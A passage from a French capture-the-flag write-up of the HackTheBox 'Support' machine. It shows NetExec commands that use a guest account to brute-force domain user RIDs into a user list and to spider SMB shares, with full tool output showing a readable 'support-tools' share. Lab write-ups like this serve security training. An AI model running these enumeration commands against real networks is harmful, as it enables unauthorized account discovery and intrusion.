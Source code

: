 ### Dumping Users using guest account
```bash
$ nxc smb 10.10.11.174 -u 'guest' -p ''                                                                                        
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest:

$ nxc smb 10.10.11.174 -u 'guest' -p '' --rid-brute | cut -d':' -f2 | cut -d'\' -f2 | grep TypeUser | cut -d' ' -f1 > users.txt
Administrator
Guest
krbtgt
DC$
ldap
support
smith.rosario
hernandez.stanley
...
```

### SMB Share : support-tools
Grâce au compte **guest**, on obtient un accès sur le share smb `support-tools`, qui nous permet notamment de récupérer un fichier intéressant : `UserInfo.exe.zip`
```bash
$ nxc smb 10.10.11.174 -u 'guest' -p '' -M spider_plus

SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SPIDER_PLUS 10.10.11.174    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.174    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.174    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.174    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.174    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.174    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.174    445    DC               [*]  OUTPUT_FOLDER: /root/.nxc/modules/nxc_spider_plus
SMB         10.10.11.174    445    DC               [*] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share 
SPIDER_PLUS 10.10.11.174    445    DC               [+] Saved share-file metadata to "/root/.nxc/modules/nxc_spider_plus/10.10.11.174.json".
SPIDER_PLUS 10.10.11.174    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, support-tools, SYSVOL)
SPIDER_PLUS 10.10.11.174    445    DC               [*] SMB Readable Shares:  2 (IPC$, support-tools)
SPIDER_PLUS 10.10.11.174    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.174    445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.10.11.174    445    DC               [*] Total files found:    7
SPIDER_PLUS 10.10.11.174    445    DC               [*] File size average:    13.96 MB
SPIDER_PLUS 10.10.11.174    445    DC               [*] File size min:        77.32 KB
SPIDER_PLUS 10.10.11.174    445    DC               [*] File size max:        45.87 MB
```